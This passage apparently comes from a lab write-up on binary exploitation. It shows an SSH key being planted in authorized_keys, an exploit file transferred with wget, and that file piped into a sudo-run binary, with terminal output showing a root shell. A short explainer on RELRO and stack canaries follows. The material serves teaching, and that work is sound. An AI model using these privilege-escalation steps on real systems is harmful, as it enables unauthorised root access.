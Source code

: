 In order to run the exploit against the binary, we will place our public key generated in the authorized\_keys file of the user's home directory .ssh.

Now, that we have an ssh session for the user, transfer the `xploit.txt` to the target machine with wget for example:

Abuse of the vulnerable binary by parsing the `xploit.txt`.

```bash
user@box:/tmp$ (cat xploit.txt; cat -) | sudo /usr/local/bin/binary-file
...
/bin/sh
...
id
uid=0(root) gid=0(root) groups=0(root)
```

After giving "/bin/sh" at the first input, it spawns a simple shell that will close after running one command. Once the `/bin/sh` shell is spawned, we can then run `/bin/bash` within it to interact fully.

```bash
user@box:/tmp$ (cat xploit.txt; cat -) | sudo /usr/local/bin/binary-file
...
/bin/sh
...
/bin/bash
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
hostname
hostname-example
```
{% endtab %}
{% endtabs %}

## checksec

<pre data-overflow="wrap"><code>checksec intro2pwn1

<strong>RELRO stands for Relocation Read-Only, which makes the global offset table (GOT) read-only after the linker resolves functions to it. The GOT is important for techniques such as the ret-to-libc attack, although this is outside the scope of this room. If you are interested, you can refer to this blog post: https://www.redhat.com/en/blog/hardening-elf-binaries-using-relocation-read-only-relro.
</strong>
Stack canaries are tokens placed after a stack to detect a stack overflow. These were supposedly named after birds that coal miners brought down to mines to detect noxious fumes. Canaries were sensitive to the fumes, and so if they died, then the miners knew they needed to evacuate. On a less morbid note, stack canaries sit beside the stack in memory (where the program variables are stored), and if there is a stack overflow, then the canary will be corrupted. This allows the program to detect a buffer overflow and shut down. You can read more about stack canaries here: https://www.sans.org/blog/stack-canaries-gingerly-sidestepping-the-cage/.
